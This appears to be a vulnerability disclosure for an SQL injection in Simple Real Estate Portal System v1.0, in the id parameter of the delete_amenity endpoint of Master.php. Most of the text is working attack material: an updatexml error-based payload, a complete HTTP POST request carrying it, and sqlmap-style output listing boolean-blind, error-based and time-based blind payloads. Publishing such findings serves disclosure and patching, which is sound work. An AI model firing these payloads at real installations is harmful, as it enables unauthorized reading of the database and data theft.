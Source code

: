 ## Simple Real Estate Portal System v1.0 has a SQL injection vulnerability

Vulnerability file: /reps/classes/Master.php?f=delete_amenity

Vulnerability location: /reps/classes/Master.php?f=delete_amenity , id

[+] Payload: id=7' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ //id is Injection point 

```
POST /reps/classes/Master.php?f=delete_amenity HTTP/1.1
Host: 192.168.1.19
Content-Length: 65
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.82 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.19
Referer: http://192.168.1.19/reps/admin/?page=amenities
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=b7n0d4rju88m3p50kmalnvn6ti
Connection: close

id=7' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ //id is Injection point
```

![image](https://user-images.githubusercontent.com/54017627/160310392-e3bb194b-07ee-4934-8cff-e17f01e3408c.png)

```sql
---
Parameter: id (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: id=7' RLIKE (SELECT (CASE WHEN (8101=8101) THEN 7 ELSE 0x28 END))-- gXyQ

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=7' AND (SELECT 6381 FROM(SELECT COUNT(*),CONCAT(0x7170787a71,(SELECT (ELT(6381=6381,1))),0x716b6a6b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- LaZi

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=7' AND (SELECT 2258 FROM (SELECT(SLEEP(5)))pvPg)-- dMCC
---
```
![image](https://user-images.githubusercontent.com/54017627/160310243-07e9650b-126c-4d59-99d9-07c81991610c.png)
